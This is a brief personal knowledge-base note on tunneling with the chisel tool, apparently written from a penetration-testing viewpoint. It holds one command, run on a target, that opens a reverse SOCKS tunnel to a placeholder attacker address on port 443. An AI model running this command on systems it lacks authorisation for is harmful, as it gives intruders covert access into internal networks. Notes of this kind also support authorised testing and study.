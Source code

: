 # tunneling through chisel Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# References
- [20221003150110](/zet/20221003150110/README.md) tunneling through chisel
- ~/kb/networking/port-forwarding.md

Tags:
    #assorted
